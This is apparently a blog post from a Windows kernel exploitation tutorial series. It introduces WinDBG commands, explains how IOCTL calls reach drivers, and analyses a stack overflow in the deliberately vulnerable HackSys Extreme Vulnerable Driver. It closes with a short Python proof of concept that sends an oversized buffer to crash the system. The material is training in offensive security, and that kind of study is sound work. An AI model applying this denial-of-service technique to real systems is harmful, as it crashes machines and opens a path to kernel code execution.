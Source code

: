 :slug: hevd-dos/
:date: 2020-09-14
:category: attacks
:subtitle: How to crash Windows
:tags: osee, training, exploit, windows, kernel, hevd
:image: cover.png
:alt: Photo by Chaozzy Lin on Unsplash
:description: This article will be the first approach to start exploting HackSys Extremely Vulnerable Driver with a Denial of Service
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/k8riOACwZDg

= HEVD: Denial of Service

In the last link:../windows-kernel-debugging/[post], we were able to setup
a lab environment to start exploiting vulnerabilities in the Windows kernel
space.

This article will focus on the first steps to exploit the vulnerabilities
on HackSys Extreme Vulnerable Driver (`HEVD`).

First we need to get familiar with `WinDBG` which is a very powerful
debugger from Microsoft but has a steep learning curve. We'll also use
`IDA`, of which I'm using the freeware version which is enough for most of
what we're going to face.

In the end, we're going to be able to crash our Windows 10 OS by leveraging
a vulnerability on `HEVD`. It's nice to crash things for the sake of science.

Let's get our hands dirty!

== WinDBG 101

Before dealing with the exploitation process, I will list some `WinDBG`
commands that have helped me. This is selfishly written as a reference
for myself but kindly shared with you.

* `g`: Short for `Go`. Will resume the execution of the debuggee.

image::g1.png[g command]

* `t`: Short for `Step Into`: Will execute the next instruction. If it's a
`call`, will jump into the call content.

* `p`: Sort for `Step Over`: Will execute the next instruction. If it's a
`call`, will execute whatever the call does and jump over it.

* `gu`: Short for `Step Out`: Will resume the execution until a `ret`
instruction is found. Useful when you `Step Into` a function and want to
return to the place it was called.

image::deb1.png[execution flow commands]

* `d*` family: Short for `Display Memory`. Will dump the contents of a given
memory address. The most useful variation on 32 bits debugging is
`dc` (dump double-word and ASCII chars).

image::dc1.png[dt command]

* `lm`: Short for `List Loaded Modules`. You can filter the ouput
using `lm m <module>`.

image::lm1.png[lm command]

image::lm2.png[lm m <module> command]

* `dt`: Short for `Display Type`. Used to list data structures.

image::dt1.png[dt command]

* `r`: Short for `Registers`. Will show the value of all the processor
registers and flags. It's also used to change the value of a register.

image::r1.png[r command]

* `u`: Short for `Unassemble`. Will show the instructions at the given
memory address.

image::u1.png[u command]

* `x`: Short for `Examine Symbols`. Will show the symbols at a given module.

image::x1.png[x command]

* `e*` family: Short for `Enter Values`. Will enter a given value to a
specified memory location. The most used variation on 32 bits debugging
is `ed` (enter double-word value).

image::ed1.png[ed command]

* `?`: Evaluate expression.

image::quest1.png[? command]

* `bp`: Short for `Breakpoint`: Will set a software breakpoint at given
address.

* `bl`: Short for `List Breakpoints`: List current breakpoints.

* `bc`: Short for `Clear Breakpoint`: Remove breakpoints.

image::bp1.png[? command]

This is by no means a comprehensive `WinDBG` reference but will show the
commands I use the most when debugging.

== Talking to Windows drivers

The common main goal of Windows Kernel exploitation is to elevate privileges
to perform any desired task on the affected computer with the most
powerful permissions. We do that, by finding a vulnerability in a piece of
code running at kernel-space and establishing a communication between the
exploit in user-mode and the target in kernel-mode which is where the
drivers live.

As Windows runs in protected mode, user-land instructions cannot
access to kernel-space memory. However, there is an interface provided
by the OS that allows talking to drivers: `IOCTL` calls.

When a driver is installed, it sets a device name using the `IoCreateDevice`
call.

image::iocreatedevice1.png[IoCreateDevice]

It then defines the routines that will expose. Commonly, those routines are
basically functions that will interact with other layer of the OS
(Hardware Abstraction Layer or `HAL` for example) to manipulate a hardware
device. In `HEVD`, those routines are simply functions happening at kernel
level with several vulnerabilities.

Each routine is identified by a `IOCTL` (I/O control) code.

The driver will accept calls to that routines using `IRP` (I/O Request Packets)
structures and will set a handler that will dispatch the specific routine,
given a specific `IOCTL` code:

image::iohandler1.png[IrpHandler]

The `IrpDeviceIoCtlHandler` function in `HEVD` creates a jump table (like
a `switch` statement) for each managed `IOCTL` code:

image::jmptable1.png[JMP table]

In `HEVD`, each `case` of that `switch` statement is handled by another
function that will trigger a specific vulnerable function:

image::jmptable2.png[JMP table]

Now, if we want to talk to that driver, we must get a handle to the
driver's device name, which is `HackSysExtremeVulnerableDrive` in the
case of `HEVD`, and use the `DeviceIoControl` function to send the
`IOCTL` code we want, along with the payload.

In Python, there's a third-party package called `infi.wioctl` that wraps
those calls nicely:

[source,python]
----
from infi.wioctl import DeviceIoControl

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_CODE, PAYLOAD, SIZE, 0, 0)
----

With that, we can start looking for our fist vulnerability on `HEVD`.

== HEVD stack overflow

`HEVD` has several vulnerabilities built-in. In this post, we will discover
the most basic, a stack overflow.

When we look at the jump table generated by the `IrpDeviceIoCtlHandler`
function, the first case is this:

image::case1.png[Case 1]

Which is triggered when the `IOCTL` code is `2236419` decimal or `0x222003`
in hex. Here, a call to `BufferOverflowStackIoctlHandler` is performed.

Inside `BufferOverflowStackIoctlHandler`, there is a check verifying if
the `IRP` package contains user-supplied data. If it does, a call to
`TriggerBufferOverflowStack` is performed:

image::buffhandler1.png[BufferOverflowStackIoctlHandler]

You can also note that the pointer to the user data is placed on `EDX` and
the pointer to the size of the user data is placed on `EAX`. That information
is then pushed to the stack as the parameters for `TriggerBufferOverflowStack`.
You can see the same in the source code of `HEVD` :

[source,cpp]
----
NTSTATUS
BufferOverflowStackIoctlHandler(
    _In_ PIRP Irp,
    _In_ PIO_STACK_LOCATION IrpSp
)
{
    SIZE_T Size = 0;
    PVOID UserBuffer = NULL;
    NTSTATUS Status = STATUS_UNSUCCESSFUL;

    UNREFERENCED_PARAMETER(Irp);
    PAGED_CODE();

    UserBuffer = IrpSp->Parameters.DeviceIoControl.Type3InputBuffer;
    Size = IrpSp->Parameters.DeviceIoControl.InputBufferLength;

    if (UserBuffer)
    {
        Status = TriggerBufferOverflowStack(UserBuffer, Size);
    }

    return Status;
}
----

In the `TriggerBufferOverflowStack` function, the first important thing
to notice is that a `memset(&KernelBuffer, 0, 800h)` call is done:

image::trigger1.png[TriggerBufferOverflowStack]

This indicates that the buffer is `800h` or `2048` bytes long.

In the end of `TriggerBufferOverflowStack`, a call to
`memcpy(&KernelBuffer, &UserBuffer, SizeOfUserBuffer)` is performed,
which is a classic example of buffer overflow, because we control both the
`UserBuffer` data and the `SizeOfUserBuffer` value:

image::trigger2.png[TriggerBufferOverflowStack]

Great, it means that if we'd wanted to overflow the `KernelBuffer`
variable, we must inject a payload with more than 2048 bytes, using the
`IOCTL` code `0x222003`. Let's create our exploit:

[source,python]
----
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow DoS.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-dos/
"""

from infi.wioctl import DeviceIoControl

DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'

IOCTL_HEVD_STACK_OVERFLOW = 0x222003
SIZE = 3000

PAYLOAD = (
    b'A' * SIZE
)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
----

And check it:

image::success1.gif[Success]

Great! We were able to overwrite `EIP` with our `A` buffer! Now the
target machine is completely unusable and our `DoS` attack was successful.

Also, as we could evidence in our previous
link:../tags/osce/[exploitation posts], when we control `EIP`, we control
the execution flow.

== Conclusions

This post was intended to cover the very first part for interacting
with a Windows driver and we were able to perform a full Denial of Service
of the victim machine. In the next post, we will use the proven ability
to control the execution flow to
link:../hevd-smep-bypass/[execute code at kernel-level].
